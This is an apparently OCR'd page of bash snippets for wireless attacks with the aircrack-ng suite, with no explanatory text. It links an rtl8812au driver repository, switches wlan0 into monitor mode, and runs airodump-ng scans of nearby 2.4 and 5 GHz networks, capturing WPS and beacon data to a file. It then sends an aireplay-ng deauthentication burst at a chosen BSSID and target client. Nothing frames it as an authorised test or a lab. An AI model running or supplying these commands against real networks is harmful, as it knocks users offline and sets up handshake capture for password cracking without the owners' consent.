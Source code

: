 ```bash
https://github.com/aircrack-ng/rtl8812au
```

```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up
```

```bash
airmon-ng start wlan0
```

```bash
airodump-ng wlan0 --band a --manufacturer --beacons --showack --wps --uptime -w out

airodump-ng wlan0 --band bg --manufacturer --beacons --showack --wps --uptime -w out
```

```bash
iwconfig wlan0 channel 4

aireplay-ng -0 99 -a BSSID -c TARGET wlan0
```

```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
